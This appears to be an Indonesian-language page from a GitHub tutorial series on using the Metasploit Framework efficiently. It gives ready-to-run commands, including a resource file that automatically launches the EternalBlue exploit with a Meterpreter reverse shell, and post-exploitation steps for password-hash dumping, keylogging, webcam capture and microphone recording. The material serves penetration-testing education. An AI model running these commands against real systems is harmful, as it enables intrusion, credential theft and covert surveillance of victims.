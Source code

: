 <p align="left">
  <a href="https://github.com/fixploit03/Belajar-Metasploit-Framework/blob/main/resource/Eksploitasi%20Otomatis%20dengan%20AutoPwn.md">Eksploitasi Otomatis dengan AutoPwn</a>
</p>

# Tips dan Trik Penggunaan Metasploit Efisien

## 1. Setup Awal yang Benar

Jalankan Metasploit dengan database aktif:

```
sudo systemctl start postgresql
msfdb init
msfconsole
```

Keuntungan database aktif:
- Menyimpan hasil pemindaian (`Nmap`, `Host`, `Service`).
- Menyimpan workspace dan logs.
- Integrasi dengan Armitage.

## 2. Gunakan Alias dan Tab Completion

- Gunakan `Tab` untuk melengkapi `command`, `module`, `payload`, `dsb`.
- Gunakan `?` atau `help` untuk melihat opsi.

  Contoh:

  ```
  use exploit/windows/smb/ms17_010_eternalblue
  show options
  ```

## 3. Simpan dan Muat Konfigurasi (resource file)

Buat file `auto.rc`:

```
nano auto.rc
```

Isi dengan:

```
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.45
set RPORT 445
set LHOST 192.168.1.42
set LPORT 4444
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set target 1
set verbose true
exploit
```

Jalankan Metaploit:

```
msfconsole -r auto.rc
```

Ini akan mengeksploitasi target secara otomatis tanpa harus kita setting secara manual satu persatu.

  
## 4. Gunakan search Secara Efisien

Cari berdasarkan `platform`, `CVE`, `tipe`, `dsb`:

```
search type:exploit platform:windows smb
search name:eternalblue
search cve:2017-0144
```

## 5. Gunakan setg untuk Pengaturan Global

```
setg LHOST 192.168.1.5
setg LPORT 4444
```

Berlaku untuk semua `exploit/payload` selanjutnya, hemat waktu konfigurasi.

## 6. Simpan dan Kelola Target dengan Workspace

```
workspace add pentest01
workspace pentest01
db_nmap -sV 192.168.1.0/24
hosts
services
```

Workspace membantu memisahkan proyek dan target secara terstruktur.

 ## 7. Gunakan exploit suggester

Jika kamu sudah mendapatkan sesi shell:

```
use post/multi/recon/local_exploit_suggester
set SESSION 1
run
```

## 8. Gunakan sessions dengan Cerdas

```
sessions       # daftar sesi
sessions -i 1  # masuk ke session 1
background     # keluarkan sesi ke background
```

## 9. Pasca-Eksploitasi Cepat

Setelah mendapatkan Meterpreter:

```
sysinfo
getuid
hashdump
shell
keyscan_start
keyscan_dump
webcam_snap
record_mic
```

## 10. Gunakan loot, notes, dan creds

Simpan dan kelola hasil:

```
loot
notes
creds
```

## 11. Integrasi dengan Script/Tool Lain
- Gunakan `Python` untuk otomatisasi via `msfrpc` (Metasploit RPC).
- Integrasi dengan `CrackMapExec`, `Empire`, atau `BloodHound`.

## Tips Tambahan:
- Gunakan module `auxiliary/scanner/*` untuk scanning cepat.
- Gunakan module `gather` untuk pencurian informasi secara otomatis.
- Dokumentasikan semua sesi dan hasil eksploitasi untuk laporan.


<p align="right">
  <a href="https://github.com/fixploit03/Belajar-Metasploit-Framework/blob/main/resource/Penutup.md">Penutup</a>
</p>
